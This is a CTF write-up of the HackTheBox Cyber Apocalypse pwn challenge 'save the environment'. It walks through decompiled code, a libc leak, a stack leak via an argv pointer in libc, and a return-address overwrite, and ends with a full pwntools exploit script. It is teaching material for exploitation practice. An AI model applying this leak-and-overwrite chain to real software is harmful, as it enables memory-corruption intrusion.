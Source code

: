 ## Hackthebox Cyberapocalypse CTF: save the environment [pwn]
![](environment_desc.png)

## challenge information
#### probably my favorite challenge of this ctf. pwning it was very simple, but it was a fun process nonetheless. we had a binary with all protections on except PIE, and the libc to accompany it. Running the binary presented us with a fancy blinking tree ascii art and the option to plant or recycle. 

## plant 🌱
#### Similar to the minefield challenge, here we have another write primitive but this time it won't be so easy as last time since the binary is running on FULL RELRO. 
```c
  check_fun(rec_count);
  color(&DAT_00401a58,"green");
  printf("> ");
  read(0,local_48,0x10);
  pointer = (ulonglong *)strtoull(local_48,(char **)0x0,0);
  putchar(10);
  color("Where do you want to plant?\n1. City\n2. Forest\n","green");
  printf("> ");
  read(0,local_28,0x10);
  puts("Thanks a lot for your contribution!");
  data = strtoull(local_28,(char **)0x0,0);
  *pointer = data;
  rec_count = 0x16;
```
#### It also sets the value of rec_count to 0x16, from its original value 0x0. This detail will be important later.

## recycle
#### calls another function named `form` and it's where we should set our sights on. What follows is the important bits of the aforementioned function.
```c
  if (((char)prompt == 'n') || ((char)prompt == 'N')) {
    rec_count = rec_count + 1;
  }
  if (rec_count < 5) {
    color("Thank you very much for participating in the recycling program!\n","magenta");
  }
  else {
    if (rec_count < 10) {
      color("You have already recycled at least 5 times! Please accept this gift: ","magenta");
      printf("[%p]\n",printf);
    }
    else {
      if (rec_count == 10) {
        color("You have recycled 10 times! Feel free to ask me whatever you want.\n> ",&DAT_00401768
             );
        read(0,pointer,0x10);
        __s = (char *)strtoull(pointer,(char **)0x0,0);
        puts(__s);
      }
    }
  }
```
#### Based on how many times we have recycled, we get a different code flow. Recycling for 5 times gives us a printf libc leak and recycling for 10 times allows us to read a value from an arbitrary address that we provide. We also have a `hidden_resources` function which prints the flag again for us. 

## stack leak from libc pointers
#### Since we have no clear way to overwrite control flow such as a buffer overflow, we need to rely on the arbitrary write. In order to get code execution, we need to overwrite a return address that is on the stack. But how can we do that if we don't have a stack leak?

![](environment_libc.png)
#### We can use the arbitrary read but what do we read from? While debugging and examining the stack after a breakpoint, I noticed a pointer which points to an argv value on the stack. Searching references to this pointer returned a result which showed that it is also referenced in libc. We can now leak this value since we already had a libc leak beforehand in order to calculate stack offsets which are constant despite PIE and ASLR. With this, we can just overwrite a return address on the stack using the arbitrary write on `plant()` and point it to the location of `hidden_resources`

![](environment_flag.png)

##### exploit script
```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./environment', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

#p = process('./environment')
p = process('./environment', env = {'LD_PRELOAD' : libc.path})
#p = remote("46.101.22.121", 30905)

#: GDB SETTINGS
breakpoints = ['break *plant + 279', 'break *form + 338']
gdb.attach(p, gdbscript = '\n'.join(breakpoints))
#gdb.attach(p)

#: EXPLOIT INTERACTION STUFF
def recycle(pointer = 0x69, arb_read = False):
	
	p.sendline('2')
	p.sendlineafter(b'> ', '2')
	p.sendlineafter(b'> ', 'n')

	if arb_read:
		p.sendlineafter(b'> ', str(pointer))
		return p.recvuntil(b'> ')

	return p.recvuntil(b'> ')

def plant(pointer, content):

	p.sendline('1')
	p.sendlineafter(b'> ', str(pointer))
	p.sendlineafter(b'> ', str(content))
	#p.recvuntil(b'> ')

#: PWN THY VULNS
p.recvuntil(b'> ')

for i in range(4):
	recycle()

printf_leak = int(recycle().split(b'\n')[1].split(b'[')[-1][:-1], 16)
libc.address = printf_leak - libc.sym.printf
log.info(hex(printf_leak))
log.info(hex(libc.address))
log.info(hex(libc.address + 0x3f05a0))

for i in range(4):
	recycle()
stack_leak = u64(recycle(pointer = libc.address + 0x3f05a0, arb_read = True).split(b'0m')[1].split(b'\n')[0].ljust(8, b'\x00'))
log.info(hex(stack_leak))

plant(stack_leak - 0x110, binary.sym.hidden_resources)
p.interactive()
```
